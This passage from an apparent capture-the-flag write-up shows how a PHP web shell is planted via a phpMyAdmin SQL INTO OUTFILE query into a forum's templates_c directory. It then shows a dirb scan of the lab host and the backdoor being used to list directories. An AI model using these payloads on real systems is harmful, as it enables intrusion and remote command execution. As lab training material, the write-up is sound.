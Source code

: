 ![phpmyadmin2](imgs/phpmyadmin2.png)

Such as:
```SQL
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

How do we know the path of the `templates_c` directory ? Well if we run a scan with dirbuster we can see that there is a `templates_c` directory in the `forum` directory.
```
➜  ~ dirb https://192.168.94.8 | grep -E 'CODE:200|DIRECTORY'
==> DIRECTORY: https://192.168.94.8/forum/
[...]
==> DIRECTORY: https://192.168.94.8/forum/images/
==> DIRECTORY: https://192.168.94.8/forum/includes/
+ https://192.168.94.8/forum/index (CODE:200|SIZE:4935)
+ https://192.168.94.8/forum/index.php (CODE:200|SIZE:4935)
==> DIRECTORY: https://192.168.94.8/forum/js/
==> DIRECTORY: https://192.168.94.8/forum/lang/
==> DIRECTORY: https://192.168.94.8/forum/modules/
==> DIRECTORY: https://192.168.94.8/forum/templates_c/
==> DIRECTORY: https://192.168.94.8/forum/themes/
==> DIRECTORY: https://192.168.94.8/forum/update/
[...]
```
*I've tried every other option and only the `templates_c` directory worked.*

Now we can access the `backdoor.php` file with `https://192.168.94.8/forum/templates_c/backdoor.php` and execute commands with the `cmd` parameter:
```
https://192.168.94.8/forum/templates_c/backdoor.php?cmd=pwd
/var/www/forum/templates_c

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/
bin boot cdrom dev etc home initrd.img lib media mnt opt proc rofs root run sbin selinux srv sys tmp usr var vmlinuz

// Yet again after a lot of digging I found this in the home directory
https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/home
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

https://192.168.94.8/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATME
```